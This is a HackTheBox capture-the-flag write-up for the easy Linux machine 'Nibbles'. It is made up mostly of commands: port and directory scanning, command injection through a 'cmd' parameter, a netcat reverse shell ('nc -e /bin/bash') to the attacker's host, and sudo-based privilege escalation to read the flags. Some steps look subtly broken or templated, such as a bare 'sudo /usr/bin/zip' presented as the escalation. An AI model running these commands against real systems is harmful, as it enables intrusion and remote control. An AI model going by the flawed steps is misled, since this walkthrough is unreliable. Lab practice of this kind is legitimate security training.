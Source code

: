 # HackTheBox - Nibbles

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Nibbles |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-24 |

## Objective 🎯

Nibbles is a Linux machine with a web application that has a command execution vulnerability. The goal is to exploit the vulnerability to gain system access and obtain both user and root flags. Nibbleblog exploitation! 🍪

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.75
- **OS**: Linux
- **Service**: Web Application

### Tools Used
- Nmap
- Web browser
- Command injection

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.75
```

## Methodology

### Step 1: Port Scan
```bash
nmap -sC -sV 10.10.10.75
```

### Step 2: Web Application Enumeration
```bash
curl http://10.10.10.75/
```

### Step 3: Directory Enumeration
```bash
gobuster dir -u http://10.10.10.75/ -w /usr/share/wordlists/dirb/common.txt
```

### Step 4: Command Injection
```bash
curl "http://10.10.10.75/nibbleblog/admin.php?cmd=id"
```

### Step 5: Reverse Shell
```bash
curl "http://10.10.10.75/nibbleblog/admin.php?cmd=nc -e /bin/bash 10.10.14.2 4444"
```

### Step 6: Privilege Escalation
```bash
sudo -l
sudo /usr/bin/zip
```

### Step 7: Find Flags
```bash
cat /home/nibbler/user.txt
cat /root/root.txt
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

## Key Learnings

- Web application command injection
- Nibbleblog exploitation
- Zip privilege escalation
- Linux system exploitation

## Tags

`#hackthebox` `#linux` `#command-injection` `#nibbleblog` `#zip` `#easy`
